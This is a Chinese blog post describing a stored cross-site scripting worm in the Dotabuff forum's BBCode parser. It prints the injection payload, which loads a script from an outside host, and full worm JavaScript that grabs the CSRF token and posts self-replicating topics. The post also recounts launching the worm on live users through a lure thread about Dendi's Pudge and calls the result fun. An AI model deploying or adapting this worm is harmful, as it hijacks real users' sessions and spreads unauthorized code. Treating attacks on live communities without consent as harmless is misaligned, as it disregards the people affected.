 ```yaml
---
layout: post
title: Dotabuff BBS Worm
---
```

#### Dotabuff/forums/general

Dotabuff 是一个 dota2 综合资讯统计网站，在上面可以看到所有开放自己比赛数据的玩家，不光是你自己，如果输入正确名字的话，所有你喜欢的职业选手在开始玩dota2以来的数据都能在上面查看到，这也是查看队友真是水平的方便工具，在 dotabuff 内就可以轻松的查看英雄的使用次数，胜率以及KDA。

Dotabuff 建立了一个庞大的社区，拥有 22,043 个主题和 317,828 个讨论。

#### Vulnerability

Dotabuff 社区采用了 [BB Code](https://zh.wikipedia.org/zh/BBCode) ，当内容为：```[url=javascript:xxx]mog[/url]``` 时，用户点击链接会触发作者编写的 js 代码，之后又发现使用 email 与 url 的配合导致截断可自定义属性，也就满足了用户进入页面后触发 js 的条件。

    [email][url]test onmouseover=t=document.createElement('script');
    t.src='//n0tr00t/_.js';document.body.appendChild(t);//
    style=display:block;position:absolute;top:0px;left:0px;
    margin-left:-1000px;margin-top:-1000px;width:99999px;
    height:99999px;//[/url][/email]

#### Exploit

    // func: dotabuff
    // author: evi1m0

    var _j = document.createElement('script');
    var _c = document.createElement('script');

    _c.src = '//t.cn/xxxxx';
    _j.src = '//lib.sinaapp.com/js/jquery/1.9.1/jquery-1.9.1.min.js';

    (document.getElementsByTagName('HEAD')[0]||document.body).appendChild(_j);
    (document.getElementsByTagName('HEAD')[0]||document.body).appendChild(_c);

    function random_num(_i){
      var str = '';
      for(var i = 0; i < _i; i += 1) {
        str += Math.floor(Math.random() * 10);
      }
      return str;
    }

    function get_topic_token(){
        var temp;
        $.ajax({
          async: false,
          type : 'GET',
          url  : '/topics/new?forum=general',
          success : function(data) {
              temp = data;
          }
        });
        _v_start = temp.split('authenticity_token')[2];
        _v_end   = _v_start.split('" />')[0].slice(9);
        return _v_end;
    }

    function new_topic(){
        topic_name = 'Var.Wonderful moment! -- ' + random_num(8);
        topic_body = "just for test :) - Click Me: [email][url]test onmouseover=t=document.createElement('script');t.src='//n0tr00t/_.js';document.body.appendChild(t);// style=display:block;position:absolute;top:0px;left:0px;margin-left:-1000px;margin-top:-1000px;width:99999px;height:99999px;//[/url][/email]"
        authenticity_token = get_topic_token();
        $.ajax({
          async: false,
          type : 'POST',
          url  : '/topics',
          data : {'utf8': '%E2%9C%93', 'authenticity_token': authenticity_token,
                  'forum': 'general', 'topic[name]': topic_name, 'topic[body]': topic_body,
                  'commit': 'Create Topic'},
          success : function(data) {
          },
        });
    }

    new_topic();

#### Spread

傍晚前我在社区发表了一篇名为《 Dendi's Pudge [ 24/0/15 ] 》的诱导帖，不一会儿的功夫论坛就炸锅了：

![http://ww1.sinaimg.cn/large/c334041bgw1ew9wyxvvj6j21400se49q.jpg](http://ww1.sinaimg.cn/large/c334041bgw1ew9wyxvvj6j21400se49q.jpg)

总之是蛮有趣的 ฅ'ω'ฅ

![http://ww1.sinaimg.cn/large/c334041bgw1ew9wznivbej20m808gt96.jpg](http://ww1.sinaimg.cn/large/c334041bgw1ew9wznivbej20m808gt96.jpg)
